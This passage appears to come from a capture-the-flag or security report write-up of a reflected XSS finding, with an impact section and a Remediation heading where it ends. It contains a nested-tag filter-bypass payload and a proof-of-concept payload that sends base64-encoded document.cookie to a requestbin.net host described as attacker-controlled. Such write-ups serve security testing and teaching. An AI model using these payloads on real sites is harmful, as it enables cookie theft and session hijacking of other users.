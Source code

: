     ```html
    <scri<script>pt>alert(1)</sc</script>ript>
    ```

    ![](images/image-20210808000354949.png)

4. As a proof of concept, we leak the `query-flag` cookie by appending it to a redirect to an attacker controlled server then reporting the page (along with the comment filter parameter) using the payload below.

    ```html
    <imimgg src="x" oneonerrorrror="location.href='http://requestbin.net/r/du0jqnpb/?c='+btoa(document.cookie)"></imimgg>
    ```

![](./images/Pasted%20image%2020210806161838.png)

### Impact

Similar to the impacts mentioned in **P4 HIGH - Stored XSS in Comment Section**, this vulnerability can be chained with the administration system that renders JavaScript on reported pages. This reflected XSS vulnerability can be used to leak sensitive information from privileged clients through capturing client side session tokens from viewers of the reported page. This can lead to an attacker conducting session hijacks with the stolen cookies. With a stolen session, attackers can impersonate that account and post content on behalf of the victim. This could lead to the victim's online persona being compromised by the actions of the attacker.


### Remediation
